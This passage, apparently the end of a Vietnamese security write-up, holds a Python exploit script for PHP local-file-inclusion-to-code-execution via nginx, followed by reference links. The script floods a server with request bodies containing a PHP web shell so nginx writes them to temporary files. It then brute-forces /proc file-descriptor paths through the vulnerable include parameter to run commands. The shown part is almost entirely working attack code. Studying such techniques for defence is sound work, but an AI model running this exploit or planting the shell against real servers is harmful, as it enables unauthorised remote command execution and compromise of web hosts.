 ```py

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`
def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                'file': f,
                'c': f'id'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```
## Tài liệu tham khảo

[LFI_With_PHPInfo_Assistance](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)

[What is PHP Output Buffering?](https://notlaura.com/output-buffering/)

[PHP_LFI_rfc1867_temporary_files](https://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf)

[File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo)

[PHP LFI with Nginx Assistance](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)




